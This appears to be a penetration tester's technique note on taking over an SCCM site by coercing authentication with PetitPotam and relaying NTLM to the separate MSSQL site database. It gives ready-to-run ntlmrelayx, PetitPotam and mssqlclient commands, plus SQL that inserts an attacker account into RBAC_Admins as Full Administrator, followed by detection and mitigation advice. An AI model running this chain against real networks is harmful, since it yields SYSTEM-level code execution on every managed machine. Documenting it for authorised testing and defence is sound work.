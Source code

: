 ```yaml
---
tags:
  - type/technique
  - tactic/TA0008
  - tactic/TA0006
  - technique/T1557001
  - stage/lateral-movement
  - os/windows
  - tool/impacket
  - tool/ntlmrelayx
  - tool/petitpotam
  - tool/mssqlclient
  - stage/privilege-escalation
aliases:
  - SCCM NTLM Relay to SQL
  - SCCM Site Database Takeover
  - PetitPotam to SCCM
---
```

## Technique
___
This takeover technique is possible when the SCCM **MSSQL Site Database** is hosted on a server separate from the Primary Site Server. In this configuration, the Primary Site Server's machine account (e.g., `SCCM01$`) is typically a local administrator on the database server.

An attacker can coerce authentication from the Primary Site Server (using a tool like PetitPotam) and relay the NTLM session to the MSSQL service on the database server. This grants the attacker `dbo` (database owner) privileges, allowing them to directly modify the SCCM database tables to add their own account as a **Full Administrator**, leading to a complete compromise of the SCCM environment.

## Prerequisites
___
**Access Level:** An account on the domain. No special or elevated privileges are required to initiate the attack.

**System State:**

- The MSSQL Site Database is hosted on a different server than the Primary Site Server.
- The Primary Site Server's computer account is a local administrator on the database server.
- The MSSQL service port (typically `1433/TCP`) is accessible from the attacker's position.
- **SMB Signing** must not be required on the target database server.

**Information:** The IP addresses of the Primary Site Server (to coerce) and the MSSQL server (to relay to).

## Considerations
___
**Impact**

A successful attack results in a full takeover of the SCCM site. By gaining Full Administrator rights, an attacker can deploy malicious applications, execute arbitrary scripts as `SYSTEM` on any managed client, and move laterally throughout the entire network managed by SCCM.

**OPSEC**

- **Coercion Noise:** Authentication coercion attempts (e.g., EFS RPC calls from PetitPotam) are often flagged by modern EDR and security monitoring solutions.
- **Relay Detection:** NTLM relay traffic is highly suspicious. A machine account authenticating from an unexpected host (the attacker's relay) is a major red flag.
- **Database Auditing:** Direct writes to sensitive SCCM tables like `RBAC_Admins` are a high-fidelity indicator of compromise if database auditing is enabled.


## Execution
___
**Step 1: Set up NTLM Relay**

Use `ntlmrelayx.py` to listen for incoming connections and relay them to the target MSSQL server. The `-socks` flag creates a proxy session upon successful relay.

```bash
impacket-ntlmrelayx -t "mssql://<MSSQL_SERVER_IP>" -smb2support -socks
```

**Step 2: Coerce Authentication**

```bash
python3 PetitPotam.py -u <user> -p '<password>' -d <domain> <ATTACKER_IP> <PRIMARY_SITE_SERVER_IP>
```

**Step 3: Access the Database via Relayed Session**

Use the created SOCKS proxy with proxychains and mssqlclient.py to connect to the database as the relayed machine account.

```bash
proxychains4 -q python3 mssqlclient.py 'DOMAIN/PRIMARY_SITE_SERVER_NAME$'@<MSSQL_SERVER_IP> -windows-auth -no-pass
```

**Step 4: Grant Admin Privileges in the Database**

Execute a series of SQL queries to add an attacker-controlled user (e.g., LAB\User) as a Full Administrator.

Get SID

```powershell
Get-DomainUser <User> -Properties objectsid
```

Convert to binary

```bash
function Convert-StringSidToBinary {
    param ([string]$StringSid)
    $sid = New-Object System.Security.Principal.SecurityIdentifier $StringSid
    $binarySid = New-Object byte[] ($sid.BinaryLength)
    $sid.GetBinaryForm($binarySid, 0)
    $binarySidHex = ($binarySid | ForEach-Object { $_.ToString("X2") }) -join ''
    echo "0x$($binarySidHex.ToLower())"
}

Convert-StringSidToBinary "<SID>"
```

Add user into admins table

```sql
USE CM_<SiteCode>;
INSERT INTO RBAC_Admins (AdminSID, LogonName, IsGroup, IsDeleted, SourceSite) VALUES (<hex of convertedsid>, 'LAB\User', 0, 0, '<SiteCode>');
```

Retrieve the new adminID

```sql
SELECT AdminID, LogonName FROM RBAC_Admins;
```

Assign `Full Administrator` to yourself

```sql
INSERT INTO RBAC_ExtendedPermissions (AdminID, RoleID, ScopeID, ScopeTypeID) VALUES (<new_admin_id>, 'SMS0001R', 'SMS00ALL', '29');
INSERT INTO RBAC_ExtendedPermissions (AdminID, RoleID, ScopeID, ScopeTypeID) VALUES (<new_admin_id>, 'SMS0001R', 'SMS00001', '1');
INSERT INTO RBAC_ExtendedPermissions (AdminID, RoleID, ScopeID, ScopeTypeID) VALUES (<new_admin_id>, 'SMS0001R', 'SMS00004', '1');
```

## Cleanup Considerations
___
- Remove the user from SCCM Full Administrator upon completion of engagement

## Detection & Mitigation
___

#### **Detection**

- Monitor for authentication coercion attempts against high-value servers (e.g., unexpected EFS RPC traffic).

- Alert when machine accounts authenticate from IPs other than their own, which is indicative of a relay attack.

- Implement database auditing to monitor for direct, unauthorized modifications to `RBAC_Admins` and `RBAC_ExtendedPermissions` tables.

- Regularly audit the list of SCCM Full Administrators for unauthorized additions.

#### **Mitigation**

- **Enable EPA:** Enable **Extended Protection for Authentication** on the MSSQL service to cryptographically bind the service to the TLS session, mitigating relay attacks.

- **Co-locate Roles:** Install the SCCM database on the Primary Site Server itself. This eliminates the need for the server's machine account to have admin rights on a separate database server.

- **Patch Systems:** Apply security updates that mitigate NTLM coercion vulnerabilities like PetitPotam.


